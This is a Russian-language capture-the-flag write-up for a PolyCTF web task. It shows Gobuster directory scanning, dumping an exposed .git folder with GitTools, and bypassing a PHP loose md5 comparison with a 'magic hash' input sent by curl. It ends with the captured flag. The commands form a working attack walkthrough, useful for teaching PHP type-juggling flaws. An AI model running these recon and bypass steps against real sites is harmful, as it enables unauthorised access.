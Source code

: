 ﻿# **Write-up: PolyCTF - Начинающий жонглер (уязвимость Magic Hash)**

## **📌 Описание задания**
> Вам необходимо научиться самому важному трюку жонглера. Попадите на его представление и узнайте все секреты.

Нам дан веб-сайт, где можно ввести **код-ключ-сертификат** для получения билета.  
Однако при вводе неправильного кода система отвечает:  Вы ввели неверный код!

Наша цель — найти уязвимость, которая позволит нам **обойти проверку кода и получить флаг**.

---

## **🛠️ 1. Информационный сбор**
### 🔎 **Анализ веб-приложения**
Мы проверили код HTML:
```bash
curl -s http://tasks.polyctf.ru:30000/
```
Но ничего полезного не нашли.

Затем использовали Gobuster для поиска скрытых директорий:
```bash
gobuster dir -u http://tasks.polyctf.ru:30000/ -w /usr/share/wordlists/dirb/common.txt --exclude-length 3594
```
Результат:
Найден .git/HEAD → значит, .git открыт для скачивания!

## **🛠️ 2. Восстановление исходников через .git**
Скачиваем .git с помощью GitTools/Dumper:
```bash
git clone https://github.com/internetwache/GitTools.git
cd GitTools/Dumper
./gitdumper.sh http://tasks.polyctf.ru:30000/.git/ ~/dumped_repo
```
После завершения восстанавливаем файлы:
```bash 
cd ~/dumped_repo
git checkout .
ls -la
```

## **📂 Найдены файлы:**

index.php (ключевой файл)

Dockerfile, docker-compose.yml

## **🔎 3. Анализ кода index.php**

В коде обнаруживаем уязвимую проверку:
```bash 
if (md5($code) == "0e974114726967211511915142978119") {
    $err =  "PolyCTF{Fake_flag}";
} else {
    $err = "Вы ввели неверный код!";
}
```

## **❌ Проблема: приведение типов в PHP**
В PHP строка "0e974114726967211511915142978119" воспринимается как 0, потому что начинается с "0e" (научная нотация).

Если мы найдём строку, md5-хэш которой также выглядит как "0e...", PHP считает их равными.

## **🛠️ 4. Эксплуатация "Magic Hash"**
Мы знаем, что существуют известные строки, md5 которых дают "0e...".
Попробуем отправить запрос с одной из них:
```bash
curl -X POST http://tasks.polyctf.ru:30000/ -d "code=240610708"
```
## **✅ И как итог, сервер выдал флаг! 🎉**
```bash
PolyCTF{MD5_AnD_tyPE_jUG9L!n6_IN_PHP_@R3_7r!Cky}
```